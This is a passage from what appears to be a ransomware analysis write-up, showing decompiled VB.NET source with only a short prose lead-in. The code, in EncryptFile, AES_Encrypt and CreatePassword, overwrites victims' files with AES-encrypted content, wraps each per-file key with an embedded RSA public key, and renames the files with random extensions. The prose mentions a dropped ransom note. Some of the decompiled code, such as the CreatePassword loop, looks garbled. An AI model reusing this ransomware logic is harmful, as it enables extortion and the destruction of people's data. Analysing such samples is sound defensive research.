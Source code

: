     -   If `flag` is `True` (which seems to be the case for the first file processed), the code writes a set of lines (`Program.messages`) to a new file in the directory. This file has the name contained in `Program.droppedMessageTextbox`.
    -   `flag` is then set to `False` to prevent adding the same message multiple times.

### Small Files Encrypting Process

```
Public Shared Sub EncryptFile(file As String)
	Dim array As Byte() = File.ReadAllBytes(file)
	Dim text As String = Program.CreatePassword(20)
	Dim bytes As Byte() = Encoding.UTF8.GetBytes(text)
	Dim array2 As Byte() = Program.AES_Encrypt(array, bytes)
	File.WriteAllText(file, "<EncryptedKey>" + Program.RSAEncrypt(text, Program.rsaKey()) + "<EncryptedKey>" + Convert.ToBase64String(array2))
	File.Move(file, file + "." + Program.RandomStringForExtension(4))
End Sub

Public Shared Function CreatePassword(length As Integer) As String
	Dim stringBuilder As StringBuilder = New StringBuilder()
	Dim random As Random = New Random()
	While True
		Dim num As Integer = 0
		Dim num2 As Integer = length
		length = num2 - 1
		If num >= num2 Then
			Exit For
		End If
		stringBuilder.Append("abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890*!=&?&/"(random.[Next]("abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890*!=&?&/".Length)))
	End While
	Return stringBuilder.ToString()
End Function

Public Shared Function AES_Encrypt(bytesToBeEncrypted As Byte(), passwordBytes As Byte()) As Byte()
	Dim array As Byte() = Nothing
	Dim array2 As Byte() = New Byte() { 1, 2, 3, 4, 5, 6, 7, 8 }
	Using memoryStream As MemoryStream = New MemoryStream()
		Using rijndaelManaged As RijndaelManaged = New RijndaelManaged()
			rijndaelManaged.KeySize = 256
			rijndaelManaged.BlockSize = 128
			Dim rfc2898DeriveBytes As Rfc2898DeriveBytes = New Rfc2898DeriveBytes(passwordBytes, array2, 1000)
			rijndaelManaged.Key = rfc2898DeriveBytes.GetBytes(rijndaelManaged.KeySize / 8)
			rijndaelManaged.IV = rfc2898DeriveBytes.GetBytes(rijndaelManaged.BlockSize / 8)
			rijndaelManaged.Mode = CipherMode.CBC
			Using cryptoStream As CryptoStream = New CryptoStream(memoryStream, rijndaelManaged.CreateEncryptor(), CryptoStreamMode.Write)
				cryptoStream.Write(bytesToBeEncrypted, 0, bytesToBeEncrypted.Length)
				cryptoStream.Close()
			End Using
			array = memoryStream.ToArray()
		End Using
	End Using
	Return array
End Function

Public Shared Function RSAEncrypt(textToEncrypt As String, publicKeyString As String) As String
	Dim bytes As Byte() = Encoding.UTF8.GetBytes(textToEncrypt)
	Dim text2 As String
	Using rsacryptoServiceProvider As RSACryptoServiceProvider = New RSACryptoServiceProvider(1024)
		Try
			rsacryptoServiceProvider.FromXmlString(publicKeyString.ToString())
			Dim array As Byte() = rsacryptoServiceProvider.Encrypt(bytes, True)
```